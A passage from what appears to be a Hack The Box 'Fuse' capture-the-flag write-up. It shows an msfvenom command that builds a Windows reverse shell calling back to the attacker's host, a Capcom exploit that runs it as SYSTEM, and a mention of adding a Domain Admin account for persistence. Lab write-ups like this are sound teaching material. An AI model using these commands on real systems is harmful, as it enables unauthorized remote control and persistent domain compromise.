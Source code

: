 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/fuse/image-42.png)

Now on my local Kali machine, I will create a reverse shell using **msfvenom**:

`sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.6 LPORT=1337 -f exe > shell.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/fuse/image-43.png)

After uploading the payload to the target, I will run it:

`.\ExploitCapcom.exe EXPLOIT shell.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/fuse/image-44.png)

Now on my local listener, I have a shell as the system:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/fuse/image-45.png)

## Beyond Root
### Persistence

For persistence, I will add Domain Admin user **jadu** as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/fuse/image-46.png)
